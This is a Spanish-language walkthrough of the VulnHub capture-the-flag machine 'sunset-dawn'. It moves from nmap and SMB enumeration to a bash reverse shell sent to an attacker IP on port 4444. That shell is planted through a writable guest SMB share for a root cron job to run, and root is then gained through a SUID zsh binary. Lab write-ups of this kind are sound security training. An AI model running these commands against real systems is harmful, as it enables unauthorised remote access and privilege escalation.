




- ### LINK: 
	- https://www.vulnhub.com/entry/sunset-dawn,341/

Primero Obtenemos la IP de nuestra maquina atacante:
```
ifconfig
```

Utilizando " netdiscover " procedemos a encontrar los equipos conectados en la red:
```
sudo netdiscover -r 192.168.1.0/24
```

Usando nmap comenzamos a realizar un escaneo a la IP de la maquina victima para el descubrimiento de puertos y servicios abiertos:
```
sudo nmap -sV 192.168.1.165
```

En el escaneo encontramois los puertos abierto con servicios corriendo:
- 80 - Apache httpd 2.4.38 ((Debian))
- 139 - Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
- 445 - Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
- 3306 - MariaDB 5.5.5-10.3.15
De samba encontramos nombre y dominio del host:
- Computer name: dawn
- NetBIOS computer name: DAWN\x00
- Domain name: dawn
- FQDN: dawn.dawn
Existe acceso de invitado guest (invitado)  y firmas de SMB desactivada: 
- account_used: guest
- message_signing: disabled (dangerous)

Revisando la web encontramos que esta en construcción la web, pero no encontramos mucha información:


Al realizar una enumeración de directorios de la web encontramos un directorio "logs" y dentro de ese directorio encontramos un archivo "management.log", en cual nos da indicio de que es la salida de un monitoreo del sistema con algun script o herramienta que detecta cambios en los paths: /usr /tmp /etc /home /var /opt
```
dirb http://192.168.1.165/
```

Encontramos que 2 archivos que espera la ejecución root donde vemos que le cambia los permisos por lo que podemos aprovechar para poder abrir una shell.

Creamos el archivo  "web-control"
```
nano web-control
```

Contenido:
```
#!/bin/bash  
bash -i >& /dev/tcp/192.168.1.71/4444 0>&1
```

Antes vamos a listar directorios SMB todo lo compartido. como estamos como invitados al pedirnos el password solo le damos enter:
```
smbclient -L //192.168.1.165/
```

Vemos que un sharename tiene un mensaje peculiar:
- ITDEPT          Disk      PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT AUTHORIZED TO USE THIS SYSTEM LEAVE IMMEADIATELY.


Entramos al sharename "ITDEPT":
```
smbclient //192.168.1.165/ITDEPT
```

Despues hacemos un put:
```
smb: \> put web-control 
```

En otra terminal ponemos en escucha a netcat:
```
nc -lvp 4444
```


Nos ponemos comodos:
```
which python
```
/usr/bin/python

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Listamos los SUID para ver si hay algo que se ejecute como root:
```
find / -perm -4000 -type f 2>/dev/null
```

Encontramos estos SUID:
- /usr/sbin/mount.cifs
- /usr/lib/dbus-1.0/dbus-daemon-launch-helper
- /usr/lib/policykit-1/polkit-agent-helper-1
- /usr/lib/eject/dmcrypt-get-device
- /usr/lib/openssh/ssh-keysign
- /usr/bin/su
- /usr/bin/newgrp
- /usr/bin/pkexec
- /usr/bin/passwd
- /usr/bin/sudo
- /usr/bin/mount
- /usr/bin/zsh
- /usr/bin/gpasswd
- /usr/bin/chsh
- /usr/bin/umount
- /usr/bin/chfn
- /tmp/rootbash

Estos son sensibles pero son muy comunes en diseños, han tenido CVE en veriones concretas pero si muestra la version para validar vector de ataque:
- /usr/lib/dbus-1.0/dbus-daemon-launch-helper
- /usr/lib/policykit-1/polkit-agent-helper-1
- /usr/lib/openssh/ssh-keysign
- /usr/lib/eject/dmcrypt-get-device

Dos son muy importantes:
- /usr/sbin/mount.cifs
- /usr/bin/zsh

Si ejecutamos:
```
zsh -p
```

Nos abrira una shell como root ya que SUID se ejecuta con el nivel de permisos del propietario en este caso el propietario es el usuario root por lo que al ejecutarlo por que tenemos pemisos de ejecucción nos abre una shell como root.
```
dawn# whoami                                                                   
whoami
root
```

Entramos a la carpeta root y visualizamos la flag:
```
cd /root
cat flag.txt
```

FLAG: Hello! whitecr0wz here. I would like to congratulate and thank you for finishing the ctf, however, there is another way of getting a shell(very similar though). Also, 4 other methods are available for rooting this box!
